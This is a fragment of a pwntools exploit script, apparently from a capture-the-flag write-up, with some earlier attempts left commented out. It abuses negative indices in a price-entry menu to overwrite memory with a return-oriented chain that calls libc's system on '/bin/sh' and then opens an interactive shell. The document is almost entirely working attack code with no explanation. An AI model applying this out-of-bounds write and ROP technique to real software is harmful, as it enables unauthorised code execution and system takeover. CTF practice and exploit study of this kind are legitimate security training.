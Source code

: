 ```python=
# sla(b'idx: ',b'-2')
# sla(b'Enter price: ',f'{prsi}'.encode())

# sla(b'> ',b'2')
# sla(b'idx: ',b'-1')
# sla(b'Enter price: ',f'{0}'.encode())

# sla(b'> ',b'2')
# sla(b'idx: ',b'0')
# sla(b'Enter price: ',f'{one}'.encode())

#scanf ret controlling
# sla(b'> ',b'2')
# sla(b'idx: ',b'-5')
# sla(b'Enter price: ',f'{prcx_rbx}'.encode())

#get_shell = p64(ret) + p64(prdi) + p64(next(libc.seacrh("/bin/sh\0"))) + p64(libc.sym.system)
binsh = next(libc.search("/bin/sh\0"))
# sla(b'> ',b'2')
# sla(b'idx: ',b'-2') # #idx = (adr[idx=0] - adr[adx=n])/8
# sla(b'Enter price: ',f'{ret}'.encode())

sla(b'> ',b'2')
sla(b'idx: ',b'-2')
sla(b'Enter price: ',f'{prdi}'.encode())

sla(b'> ',b'2')
sla(b'idx: ',b'-1')
sla(b'Enter price: ',f'{binsh}'.encode())

sla(b'> ',b'2')
sla(b'idx: ',b'0')
sla(b'Enter price: ',f'{libc.sym.system}'.encode())

#scanf ret controlling
sla(b'> ',b'2')
sla(b'idx: ',b'-5')
sla(b'Enter price: ',f'{prcx_rbx}'.encode())

p.interactive()
```
